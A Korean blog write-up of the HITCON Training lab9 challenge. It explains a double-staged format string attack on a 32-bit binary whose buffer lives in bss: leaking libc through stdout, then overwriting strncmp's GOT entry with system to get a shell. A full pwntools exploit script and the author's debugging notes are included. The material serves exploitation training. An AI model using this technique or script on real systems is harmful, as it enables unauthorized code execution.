 ```yaml
---
layout: post
title: "[HITCON Training] lab9"
comments : true
category : War Game
---
```


# 문제
***

playfmt 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
playfmt: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=157fb5ec4301a1a1bddebb3c0f79c17305c57693, not stripped
```

취약점이 존재하는 함수

```
int do_fmt()
{
  int result; // eax

  while ( 1 )
  {
    read(0, buf, 0xC8u);
    result = strncmp(buf, "quit", 4u);
    if ( !result )
      break;
    printf(buf);
  }
  return result;
}
```

printf(buf)에 format string bug가 존재한다. 하지만 buf가 stack이 아닌 bss 영역에 위치하고 있다. 따라서 lab7, lab8 처럼 내가 write하고 싶은 영역의 주소를 buf에 넣어도 해당 주소를 참조할 수 없다.

=> double staged format string attack을 이용해야 한다.
#### 1. first stage
스택에 있는 포인터 (스택 내의 주소를 가리키는 포인터)를 이용해서 해당 주소에 내가 덮어쓰고자 하는 주소를 write한다. 

#### 2. second stage 
first stage에서 write한 주소 (스택에 존재)를 참조해서 그 주소에 내가 원하는 값을 덮어쓴다.

## exploit 방법
#### 1. do_fmt 함수를 호출하기 전에 setvbuf를 호출하는데 이 때 인자로 들어간 stdout의 주소가 스택에 존재한다. 이 값을 출력함으로써 libc의 base_addr을 leak할 수 있다. (stdout의 offset은 readelf -s libc를 통해서 찾을 수 있다. 또는 gdb에서 x/a &stdout을 통해서 나온 주소에서 libc_base를 빼면 된다.)

이를 통해 system 함수의 주소를 알 수 있다.

#### 2. 스택에 있는 포인터를 이용해서 스택에 strncmp_got 주소, strncmp_got 주소 +2 값을 write한다. (system 함수의 주소가 0xf7로 시작하기 때문에 %hn을 통해 overwrite하려고 한다.)

#### 3. 2번에서 스택에 write한 주소를 참조해서 strncmp_got 영역에 system의 주소를 overwrite한다. 

#### 4. read 함수에서 buf에 "bin/sh\x00"을 넣어주면 shell을 얻을 수 있다. 

c.f) 이 문제는 esp 값을 잘 조절해줘서 printf를 호출할 때 마다 esp 값이 고정되어 있다. => 이거 원래 모든 바이너리에서 다 스택 정리를 이렇게 해주나? 

그리고 이 문제에서 buf(같은 영역에)에 계속 write를 해주기 때문에 이전에 보낸 문자열 보다 그 다음에 보낸 문자열이 더 짧으면 이전에 보낸 문자열까지 같이 printf한다. 그러면 %n이 이상한 곳을 참조해서 error가 발생하여 프로세스가 종료될 수도 있다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab9/playfmt"

p=process(file_path)
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

strcmp_got=0x804a020

p.recvuntil("=\n")
p.recvuntil("=\n")


pay="%8$x" # stdout leak
pay+="%"+str(strcmp_got-8)+"d"+"%6$n"
pay+="%c"*2+"%13$n"+"end"

p.send(pay)

IO_stdout=int(p.recv(8),16)
libc_base=IO_stdout-0x001b2d60
system=libc_base+libc.symbols['system']

time.sleep(20)
p.recvuntil("end")

system=hex(system)
system_high=int(system[2:6],16)
system_low=int(system[6:],16)

pay2="%08x"*8+"%"+str(system_low-64)+"d"+"%hn"+"%08x"*8+"%"+str(system_high-system_low-64)+"d"+"%hn"+"end"

p.send(pay2)

time.sleep(20)
p.recvuntil("end")

p.send("/bin/sh\x00")

p.interactive()
```


# 알게 된 것
***

1. 혁쓰 추측 : 로컬에서 format string bug를 exploit 할 때 해당 프로세스 (pwntools의 process로 실행시킨 것)를 gdb에 attach하고 디버깅 하는 경우 printf를 통해 매우 많은 양을 출력하면 이걸 읽어줘야 프로세스가 멈추지 않고 제대로 실행된다. 출력을 읽어주지 않으니까 출력을 계속 하다가 출력 버퍼가 꽉 차서 더 출력을 하지 못하고 대기하고 있는듯... 


근데 이상한게 gdb에 프로세스를 attach하지 않고 그냥 처음부터 gdb로 프로그램을 디버깅 할 때는 출력을 읽어주지 않아도 프로세스가 멈추지 않고 실행된다. 


=> pwntools의 process 함수가 만든 통신은 출력이 매우 큰 경우에는 출력 버퍼에 있는 것을 읽어들였는지 안 읽어들였는지를 신경 쓰는듯?


이걸 처리하기 위해서 payload 마지막에 "EEEEE" 같은 특정 문자열을 넣어준다. 그 다음 time.sleep(30)을 통해서 해당 문자열이 다 출력될 때 까지 기다린 뒤 recvuntil("EEEEE")를 이용해서 출력한 것을 다 받아준다. recvuntil이 계속 데이터를 축적시키고 있는 놈이라 터질 수도 있기 때문에 아래 코드를 이용하는게 더 좋을 것 같다. 

```
While 'E' not in p.recv(0x1000):
    pass
```


리모트의 경우는 send를 하고 나면 이것에 대해서 따로 신경을 쓰지 않기 때문에 이러한 문제가 발생하지 않는다. 


2. %n은 지금까지 출력한 문자열의 개수를 write하는 것이 아니라 %n이 들어간 printf 내에서 출력한 문자열의 총 개수를 write한다. 

```
printf(“%10c%n”, 1, &count);
printf(“%20c%n”, 1, &count2);
count1 = 10
count2 = 20 
```


3. double staged format string attack의 second stage에서 $플래그를 통해 parameter를 참조할 때 수정된 값을 참조하지 못한다. 즉, second stage에서 %10$n으로 내가 수정한 주소에 overwrite를 하려고 하면 수정한 주소를 참조하는 것이 아니라 수정되기 전에 해당 위치에 있던 값을 참조하여 overwrite를 하게 된다. 


$flag는 $flag로 지정한 포맷 스트링의 값을 미리 가져와 놓고 사용하기 때문에 수정한 값을 가져오지 못하고 수정하기 전의 값을 참조하게 된다.


근데 또 이상한게 제일 마지막에 1개 쓰는 것은 수정한 값을 참조한다. 즉, second stage에서 payload를 %d %s %d %10$n으로 하면 이 때는 수정한 값을 참조한단다...

c.f) send()는 문자열 마지막에 NULL을 추가하지 않는다. (sendline은 "\x0a"를 추가한다.) 


